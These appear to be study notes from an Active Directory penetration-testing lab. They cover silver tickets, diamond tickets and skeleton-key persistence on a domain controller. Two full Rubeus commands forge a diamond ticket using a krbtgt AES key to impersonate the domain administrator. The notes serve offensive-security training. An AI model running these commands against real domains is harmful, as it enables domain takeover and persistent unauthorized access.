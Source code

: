 
Learning Objective 9

 Try to get command execution on the domain controller by creating silver tickets for:

- HOST service
- WMI



## Diamond Ticket

- its created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account
- golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack
- the persistence lifetime depends on krbtgt account

A diamond ticket is more opsec safe as it has:
```
→ valid ticket times because a TGT issued by the DC is modified
→ in golden ticket, there is no corresponding TGT request for TGS/Service tickert requests as the TGT is forged
```

We would still need krbtgt AES keys. **Use the following Rubeus command to create a diamond ticket** (note that RC4 or AES keys of the user can be used too):
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We could also use **/tgtdeleg** option in place of credentials in case we have access as a domain user:
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg 	/enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Learning Objective 10

- Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack.



## Skeleton Key

> not recommended to do in an assessment
> **Its not opsec safe** and is also known to cause issues with AD CS

- its a persistence technique where its possible to patch a Domain Controller **(lsass process)** so that it allows access as any user with a single password

> not persistent across reboots 

